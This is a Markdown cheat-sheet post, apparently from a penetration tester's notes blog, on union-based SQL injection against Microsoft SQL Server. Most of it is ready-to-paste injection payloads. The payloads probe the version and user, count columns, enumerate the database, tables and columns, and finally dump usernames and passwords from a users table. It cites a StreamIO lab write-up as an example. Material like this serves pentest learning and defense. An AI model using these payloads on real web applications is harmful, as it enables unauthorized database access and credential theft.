 ```yaml
---
description: >-
  SQL Injection MSSQL
title:  SQL Injection MSSQL            # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection - MSSQL]                     # Change Templates to Writeup
tags: [exploitation, sql injection, mssql, union select]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Simple Commands
Simple enumeration is to be abused with following queries such queries where taken from [PayloadAllTheThings](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet):
```bash
# Version
SELECT @@version
# DB user
SELECT user_name();
SELECT system_user;
SELECT user;
# Sleep function
waitfor delay '0:0:10'--
```

### Union Select
First of all we need to identify the behavior of the database with sqli payloads, a good idea is to enumerate columns with sqli such as:
> Sometimes the results are not shown on the output of the request, so it is a good idea to try with a payload that would responde correctly before of the payload, if the vulnerability is on a search bar, try to add a word that retrieves some results, for example `10` before of the payload `' union select 1-- -`
{: .prompt-info }
```bash
' union select 1-- -
' union select 1,2-- -
' union select 1,2,3-- -
' union select 1,2,3,4-- -
' union select 1,2,3,4,5-- -
' union select 1,2,3,4,5,6-- -
```

> If there is a successsful answer then we need to identify which column retrieves information from the database.
{: .prompt-tip }

#### Version
```bash
' union select 1,@@version,3,4,5,6 -- -
```
![Database_Version](/assets/img/Pasted image 20230426233714.png)

#### Database user
You can use any of the options below:
```bash
' union select 1,CURRENT_USER,3,4,5,6 -- -
' union select 1,user_name(),3,4,5,6 -- -
' union select 1,system_user,3,4,5,6 -- -
' union select 1,user,3,4,5,6 -- -
```
![Database_User](/assets/img/Pasted image 20230426234307.png)

#### Database name
It is of upmost importance to gather the name of the database being used:
```bash
' union select 1,DB_NAME(),3,4,5,6 -- -
```
![Database_Name](/assets/img/Pasted image 20230426234212.png)

#### Tables
Once that we get the name of the database we can proceed to gather the tables on such database:
```bash
# First and simple option is retrieving all the info from a table
' union select 1,name,3,4,5,6 FROM STREAMIO..sysdatabases-- -
``` 
![Database_Tables](/assets/img/Pasted image 20230426235140.png)

Another option is to retrieve the tables on a simple column with the function [STRING_AGG](https://www.mssqltips.com/sqlservertutorial/9371/sql-string-agg-function/):
```bash
' union select 1,(SELECT STRING_AGG(name, ', ') FROM STREAMIO..sysobjects),3,4,5,6-- -
```
![Database_Tables](/assets/img/Pasted image 20230426235753.png)

#### Columns
Then we extract the column names, we can use a WHERE condition clause to extract only the columns from an specific table in this case the "users" table:
```bash
' union select 1,name,3,4,5,6 FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name = 'users')-- -
```
![Database_Columns](/assets/img/Pasted image 20230427000937.png)

#### Data within the tables
Finally once that we gather all the info we then proceed to retrieve information from the table:
```bash
' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```
Examples: 
[StreamIO](https://shuciran.github.io/posts/Streamio/#fnref:sql-injection-mssql)